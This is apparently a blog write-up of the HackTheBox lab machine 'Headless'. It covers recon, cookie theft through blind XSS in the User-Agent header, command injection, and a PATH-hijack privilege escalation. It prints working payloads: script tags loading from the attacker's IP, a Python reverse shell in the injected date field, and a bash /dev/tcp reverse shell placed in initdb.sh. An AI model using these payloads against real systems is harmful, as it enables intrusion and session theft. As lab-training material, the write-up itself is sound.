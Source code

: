 ```yaml
---
layout: post
title: Headless - HackTheBox
categories:
- HackTheBox
tags:
- xss
- xss snake
- cookie hijack
- path hijack
- selenium
date: 2024-04-01
description: Headless its a easy hackthebox machine that is vulnerable to xss in a contact form. Using that vulnerability we can grab a cookie and gain admin access to the web app. Following that we detect a command injection which allows the foothold into the machine. Inside the machine we gain root by exploiting a script containing a path hijack vulnerability.
summary: Headless its a easy hackthebox machine that is vulnerable to xss in a contact form. Using that vulnerability we can grab a cookie and gain admin access to the web app. Following that we detect a command injection which allows the foothold into the machine. Inside the machine we gain root by exploiting a script containing a path hijack vulnerability.
cover:
  image: images/machine_img.png
---
```


## Recon

Running nmap it detects two open ports: 22(SSH) and 5000(http).

The port 5000 is running a python web app that uses a cookie `is_admin`, supposedly to verify if we are admin or not.
The main page tells that the website is being built and it has a link to another page which is a form to contact the support.
Lets run gobuster to see if it has some hidden pages.

`gobuster dir -u http://10.129.146.30:5000/ -w ~/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt`

/support              (Status: 200) [Size: 2363]
/dashboard            (Status: 500) [Size: 265] 


We detect another one `/dashboard` that seems to need more privileges.

## Foothold

Lets fuzz the parameters of the support form at the support page `/support` and see if we have some sort of XSS to get an admin cookie.
We can assume we can steal the cookie because of the `httponly` property is false.

```
POST /support HTTP/1.1
Host: 10.129.146.30:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://10.129.146.30:5000/support
Content-Type: application/x-www-form-urlencoded
Content-Length: 349
Origin: http://10.129.146.30:5000
DNT: 1
Connection: close
Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs
Upgrade-Insecure-Requests: 1

fname=<script+src%3d"http%3a//10.10.14.46%3a8000/first_name"></script>&lname=<script+src%3d"http%3a//10.10.14.46%3a8000/last_name"></script>&email=<script+src%3d"http%3a//10.10.14.46%3a8000/email"></script>&phone=<script+src%3d"http%3a//10.10.14.46%3a8000/phone_number"></script>&message=<script+src%3d"http%3a//10.10.14.46%3a8000/message"></script>
```

After a couple of attempts we get the following error:

```html
HTTP/1.1 200 OK
Server: Werkzeug/2.2.2 Python/3.11.2
Date: Wed, 27 Mar 2024 11:24:01 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 2335
Connection: close

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Hacking Attempt Detected</title>
</head>
<body>
    <div class="container">
        <h1>Hacking Attempt Detected</h1>
        <p>Your IP address has been flagged, a report with your browser information has been sent to the administrators for investigation.</p>
        <p><strong>Client Request Information:</strong></p>
        <pre><strong>Method:</strong> POST<br><strong>URL:</strong> http://10.129.146.30:5000/support<br><strong>Headers:</strong> <strong>Host:</strong> 10.129.146.30:5000<br><strong>User-Agent:</strong> Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0<br><strong>Accept:</strong> text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8<br><strong>Accept-Language:</strong> en-US,en;q=0.5<br><strong>Accept-Encoding:</strong> gzip, deflate, br<br><strong>Referer:</strong> http://10.129.146.30:5000/support<br><strong>Content-Type:</strong> application/x-www-form-urlencoded<br><strong>Content-Length:</strong> 349<br><strong>Origin:</strong> http://10.129.146.30:5000<br><strong>Dnt:</strong> 1<br><strong>Connection:</strong> close<br><strong>Cookie:</strong> is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs<br><strong>Upgrade-Insecure-Requests:</strong> 1<br><br></pre>
    </div>
</body>
</html>


```

From all the client information that will be viewed by the administrator and that we can control the **user-agent** is the most likely to be a target. 
Lets setup a xss in the user-agent.

Example: `User-Agent: <script src="http://10.10.14.46:8000/user_agent"></script>`, by opening a python server, `python3 -m http.server`, and wait a couple of minutes we get a connection trying to get our `user_agent` script. That means that our **reflected XSS worked**! 

Note: We can also use netcat to get the http connection: `nc -lvnp 8000`.

To get the cookie we used XSS wordlist called **XSS Snake**, link [here](https://gist.github.com/w0r7h/13ee74de3de2c89823b16353c1f84d85).
Replacing the ip of the wordlist with mine, with the command: `cat ./XSS_SNAKE | sed 's/10.10.14.164/<YOUR_IP>:8000/g' > xss_snake_my` and executing ffuf with it, we finally get a cookie.

ffuf command: `ffuf -w xss_snake_my_ip_2:FUZZ -request form_request -request-proto http`
Cookie: `ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0`

We now go to the dashboard and capture the request. After some testing seems like the web app is vulnerable to **command injection** after piping another command. Final payload:
```shell
date=2023-09-15 ; python3 -c 'import socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.46",1234));subprocess.call(["/bin/sh","-i"],stdin=s.fileno(),stdout=s.fileno(),stderr=s.fileno())' ;
```

We get a shell as the user dvir and the user flag!


## Privilege Escalation

Looking for the sudo permissions we get:

```shell
sudo -l
Matching Defaults entries for dvir on headless:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User dvir may run the following commands on headless:
    (ALL) NOPASSWD: /usr/bin/syscheck

```

We can't edit the script: `-r-xr-xr-x 1 root root 768 Feb  2 16:11 /usr/bin/syscheck`
Lets take a look at the script syscheck:

```bash
cat /usr/bin/syscheck
#!/bin/bash

if [ "$EUID" -ne 0 ]; then
  exit 1
fi

last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"

disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"

load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"

if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi

exit 0

```

The script has a PATH hijack in the file `./initdb.sh`. It does not specify the absolute path.
We just need to create the file `initdb.sh` with a reverse shell: `bash -i >& /dev/tcp/10.10.14.128/1235 0>&1` and set it as executable: `chmod +x initdb.sh`

Open a netcat listener at port 1235 in my case and execute: `sudo /usr/bin/syscheck`

We get root!

## Other machine details

If we dive into the machine to try to understand the web app, it has a cronjob that uses selenium to access the hacking reports and its that, that we steal the cookie from.